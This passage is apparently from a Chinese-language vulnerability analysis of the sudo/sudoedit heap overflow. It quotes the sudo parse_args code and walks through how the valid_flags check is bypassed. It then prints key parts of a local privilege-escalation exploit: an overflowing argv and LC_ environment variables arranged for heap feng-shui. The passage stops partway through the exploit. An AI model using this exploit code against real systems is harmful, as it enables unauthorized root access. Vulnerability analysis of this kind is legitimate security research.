 幸运的是我们可以绕过对valid_flags的设置，还记得前面我们分析的parse_args函数对于构造command部分对于NewArgv[0]的处理吗？当参数长度大于4满足条件时会进入内部处理代码，将其设置为”sudoedit”，并将mode设置为MODE_EDIT，并且后续代码也没有处理valid_flags标志的地方，让我们一开始设想的情景得以实现。为了方便阅读，我把这部分代码放到下面以供分析：  
```
int parse_args(int argc, char **argv, int*old_optind, int *nargc, char ***nargv,
struct sudo_settings **settingsp, char ***env_addp)
{
//
...
int valid_flags = DEFAULT_VALID_FLAGS;
//
...
/*
First, check to see if we were invoked as "sudoedit". */
//如果以sudoedit 打开
proglen = strlen(progname);
if (proglen > 4 &&
strcmp(progname + proglen - 4, "edit") == 0)
{
progname = "sudoedit";
// 则设置 mode 为 MODE_EDIT
mode = MODE_EDIT;
// 注意之后就没有再设置 valid_flags了
sudo_settings[ARG_SUDOEDIT].value = "true";
}
//
...
//必须绕过的特殊判断条件
if ((flags & valid_flags) != flags)
usage();
//
...
}
```  
  
综上，这个漏洞相当的理想。首先user_args堆内存的长度是完全可控的，并且由于sudoedit参数在内存中的位置和变量相邻，因此越界写入的数据也是完全可控的。最初级的我们可以触发malloc的corrupt，复杂一些的话我们可以实现提权。  
  
笔者经过本地验证可提权的EXP部分关键代码如下：  
```
……
char buf[0xf0] = {0};
memset(buf, 'Y', 0xe0);
strcat(buf, "\\");
char* argv[] = {
"sudoedit",
"-s",
buf,
NULL};
//
Use some LC_ vars for heap Feng-Shui.
//
This should allocate the target service_user struct in the path of the overflow.
char messages[0xe0] = {"LC_MESSAGES=en_GB.UTF-8@"};
memset(messages + strlen(messages), 'A', 0xb8);
char telephone[0x50] = {"LC_TELEPHONE=C.UTF-8@"};
memset(telephone + strlen(telephone), 'A', 0x28);
char measurement[0x50] = {"LC_MEASUREMENT=C.UTF-8@"};
memset(measurement + strlen(measurement), 'A', 0x28);
//
This environment variable will be copied onto the heap after the overflowing
chunk.
//
Use it to bridge the gap between the overflow and the target service_user
struct.
```